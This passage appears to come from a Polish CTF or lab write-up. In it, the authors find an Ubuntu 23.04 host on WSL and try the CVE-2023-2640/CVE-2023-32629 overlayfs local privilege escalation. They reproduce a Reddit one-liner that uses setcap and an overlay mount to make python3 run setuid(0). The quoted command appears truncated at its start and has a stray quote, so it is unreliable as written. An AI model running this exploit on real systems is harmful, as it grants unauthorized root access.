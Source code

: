 <img src="images/6.png" width="100%"> 

Rozejrzeliśmy się po serwerze i zauważyliśmy, że jest to Linux postawiony na WSL. 

<img src="images/7.png" width="100%"> 

Googlujac dalej znaleźliśmy podatność na `Ubuntu` dla wersji `23.04` która może nas zainteresować:
> CVE-2023-2640 & CVE-2023-32629

Oraz studiująć wątek na reddicie:
> https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?utm_content=title&utm_medium=post_embed&utm_name=400dad1168544491a0500188da451d7c&utm_source=embedly&utm_term=15ecpck

Spróbowaliśmy użyć komendy przygotowanej przez jednego z redditorów:
```bash
setcap cap_setuid+eip l/python3; mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os; os.setuid(0); os.system("id")'
```
